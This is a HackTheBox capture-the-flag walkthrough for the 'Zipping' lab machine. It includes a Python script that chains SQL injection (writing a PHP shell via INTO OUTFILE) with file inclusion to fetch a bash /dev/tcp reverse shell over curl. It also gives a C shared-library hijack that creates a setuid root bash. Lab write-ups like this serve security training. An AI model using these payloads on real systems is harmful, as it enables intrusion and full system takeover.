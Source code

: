 # ⚽ Zipping HackTheBox Walkthrough

<figure><img src=".gitbook/assets/Zipping.png" alt=""><figcaption><p>ZIPPING - HACK THE BOX</p></figcaption></figure>



Add the given Machine IP to Host file

```
sudo nano /etc/hosts
```

Now you will be able to Open Webpage in Web Browser.

#### NMAP

```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 9.0p1 Ubuntu 1ubuntu7.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 9d:6e:ec:02:2d:0f:6a:38:60:c6:aa:ac:1e:e0:c2:84 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBP6mSkoF2+wARZhzEmi4RDFkpQx3gdzfggbgeI5qtcIseo7h1mcxH8UCPmw8Gx9+JsOjcNPBpHtp2deNZBzgKcA=
|   256 eb:95:11:c7:a6:fa:ad:74:ab:a2:c5:f6:a4:02:18:41 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOXXd7dM7wgVC+lrF0+ZIxKZlKdFhG2Caa9Uft/kLXDa
80/tcp open  http    syn-ack Apache httpd 2.4.54 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Zipping | Watch store
|_http-server-header: Apache/2.4.54 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kerne
```

#### INDEX PAGE&#x20;

<figure><img src=".gitbook/assets/Screenshot 2023-12-16 at 09-44-02 Zipping Watch store.png" alt=""><figcaption><p>http://10.10.11.229/</p></figcaption></figure>

#### GETTING SHELL  ACESS

#### POC

```
import requests
import sys
import subprocess
import random

if len(sys.argv) < 2:
    print("Usage: python3 HTB_Zipping_poc.py <listener ip> <listener port>")
    sys.exit(1)

fnb = random.randint(10, 10000)
url = "http://zipping.htb/"

session = requests.Session()

print("[+] Please run nc in other terminal: rlwrap -cAr nc -nvlp " + f"{sys.argv[2]}")

print("[+] Write php shell /var/lib/mysql/rvsl" + str(fnb) + ".php")

with open('revshell.sh', 'w') as f:
        f.write("#!/bin/bash\n")
        f.write(f"bash -i >& /dev/tcp/{sys.argv[1]}/{sys.argv[2]} 0>&1")
proc = subprocess.Popen(["python3", "-m", "http.server", "8000"])
phpshell = session.get(url + f"shop/index.php?page=product&id=%0A'%3bselect+'<%3fphp+system(\"curl+http%3a//{sys.argv[1]}:8000/revshell.sh|bash\")%3b%3f>'+into+outfile+'/var/lib/mysql/rvsl{fnb}.php'+%231")

print("[+] Get Reverse Shell")

phpshell = session.get(url + f"shop/index.php?page=..%2f..%2f..%2f..%2f..%2fvar%2flib%2fmysql%2frvsl{fnb}")

proc.terminate()
```

save this python script with **.py** format and run the following line of codes.

```
python3 script.py <your_vpn_ip> 4444 

& Run NETCAT in another Tab
```

```
┌──(Batman㉿GC)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.110] from (UNKNOWN) [10.10.11.229] 34126
bash: cannot set terminal process group (1128): Inappropriate ioctl for device
bash: no job control in this shell
rektsu@zipping:/var/www/html/shop$   
```

Run TTY Spawn Shell.

#### Privilage Escalation

```
rektsu@zipping:/$ sudo -l
Matching Defaults entries for rektsu on zipping:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User rektsu may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock
```

{% embed url="https://tbhaxor.com/exploiting-shared-library-misconfigurations/" %}

We can see a **binary** that requests a **password** luckily the password is given **"St0ckM4nager".**

Now we use strace and we find that the program calls library that does not exist: **/home/rektsu/.config/libcounter.so**

```
Open a text editor and save the file in /tmp/libcounter.c

#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
 system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

Type the following line of code.

```
gcc -shared -o /home/rekstu/.config/libcounter.so -fPIC /tmp/libcounter.c
```

Now run,

```
rektsu@zipping:/home/rektsu$ sudo /usr/bin/stock
Enter the password: St0ckM4nager
root@zipping:/home/rektsu# whoami
root
```

WE ARE **ROOT** !!!!!!
